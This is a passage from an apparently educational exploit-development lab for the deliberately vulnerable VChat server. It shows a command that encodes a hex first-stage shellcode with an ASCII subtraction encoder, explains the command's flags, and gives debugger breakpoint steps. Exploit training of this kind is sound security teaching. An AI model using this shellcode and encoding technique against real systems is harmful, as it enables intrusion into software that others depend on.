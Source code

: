 		<img src="Images/I52.png" width=800>

	4. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) to encode our first stage shellcode.

		```
		python3 encoder.py -m -p -s '\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\xa0\x23\x6a\x77\xff\xd0\x85\xc0\x75\xe6' -v FIRST_STAGE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`
		* `-p`: Pad shellcode so it is a multiple of 4
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length 
		* `-v`: Name of variable for output 
	
	5. Modify your exploit to reflect [exploit12b-MULT.py](./SourceCode/exploit12b-MULT.py), then test it!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/ed4fc693-7510-409b-beb0-83b3c6123ed4

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			<img src="Images/I16.png" width=600>

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`
